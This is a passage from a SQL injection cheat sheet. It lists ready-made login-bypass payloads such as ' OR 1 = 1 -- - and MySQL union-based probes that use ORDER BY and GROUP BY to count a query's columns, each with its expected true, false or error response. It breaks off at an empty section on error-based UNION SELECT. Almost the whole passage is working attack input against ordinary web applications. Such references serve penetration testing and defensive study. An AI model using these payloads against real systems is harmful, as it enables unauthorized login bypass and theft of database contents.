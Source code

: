 * **Login**: Query like `SELECT * FROM Users WHERE username = 'FUZZ1' AND password = 'FUZZ2';`
    ```ps1
    ' OR '1
    ' OR 1 -- -
    " OR "" = "
    " OR 1 = 1 -- -
    '='
    'LIKE'
    '=0--+
    ```


## MYSQL Union Based

### Detect columns number

First you need to know the number of columns

##### Using `order by` or `group by`

Keep incrementing the number until you get a False response.
Even though GROUP BY and ORDER BY have different functionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.

```sql
1' ORDER BY 1--+	#True
1' ORDER BY 2--+	#True
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```
or 
```sql
1' GROUP BY 1--+	#True
1' GROUP BY 2--+	#True
1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+	True
```
##### Using `order by` or `group by` Error Based
Similar to the previous method, we can check the number of columns with 1 request if error showing is enabled.
```sql
1' ORDER BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+

# Unknown column '4' in 'order clause'
# This error means query uses 3 column
#-1' UNION SELECT 1,2,3--+	True
```
or
```sql
1' GROUP BY 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,37,38,39,40,41,42,43,44,45,46,47,48,49,50,51,52,53,54,55,56,57,58,59,60,61,62,63,64,65,66,67,68,69,70,71,72,73,74,75,76,77,78,79,80,81,82,83,84,85,86,87,88,89,90,91,92,93,94,95,96,97,98,99,100--+

# Unknown column '4' in 'group statement'
# This error means query uses 3 column
#-1' UNION SELECT 1,2,3--+	True
```
##### Using `UNION SELECT` Error Based
This method works if error showing is enabled
```sql
```